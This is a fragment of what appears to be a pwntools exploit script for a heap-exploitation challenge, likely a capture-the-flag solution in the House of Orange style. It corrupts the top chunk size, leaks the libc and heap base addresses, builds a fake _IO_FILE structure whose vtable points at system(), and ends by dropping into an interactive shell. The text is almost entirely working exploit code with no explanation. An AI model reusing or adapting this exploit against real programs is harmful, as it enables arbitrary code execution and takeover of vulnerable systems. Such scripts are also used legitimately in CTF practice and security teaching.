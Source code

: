 ```c
	file+=p16(0)                       #_cur_column
	file+=p8(0)                        #_vtable_offset
	file+=p8(0)                        #_shortbuf[0]
	file+=p32(0)                       #_shortbuf[1]
	file+=p64(0)                       #_lock
	file+=p64(0)                       #_offset
	file+=p64(0)                       #_codecvt
	file+=p64(0)                       #_wide_data
	file+=p64(0)                       #_freeres_list
	file+=p64(0)                       #_freeres_buf
	file+=p64(0)                       #__pad5
	file+=p32(0)                       #_mode
	file+=p32(0)                       #unused2
	file+=p64(0)*2                     #unused2
	file+=p64(libc.address+0x3c3798)   #vtable
	file+=p64(0)   
	file+=p64(libc.sym["system"])   
	file+=p64(0) #pad

	return file   
add(0x18,"cat03")
show()
payload = "A"*0x18
payload += p64(0x21)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0xfa1)
payload += p64(0)
edit(0x18+0x8*6,payload[:-1])
add(0x1000,"giles")
add(0x400,"Anderso")
show()
libc.address = u64(ru("\x7f")[-6:]+"\x00\x00")-1640-0x10 - libc.sym["__malloc_hook"]
info("libc base 0x%x"%libc.address)
payload = ""
payload += "A"*0x10
payload += "A"*7
edit(0x18,payload)
show()
ru("AAAAAAAAAAAAAAAAAAAAAAA\n")
heap = u64(r(6)+"\x00\x00")-0xc0
info("heap base 0x%x"%heap)

payload = "\x00"*0x408
payload += p64(0x21)
payload += p64(0)
payload += p64(0)
payload += file()
edit(len(payload),payload[:-1])
r()
sl("1")
sh()
```
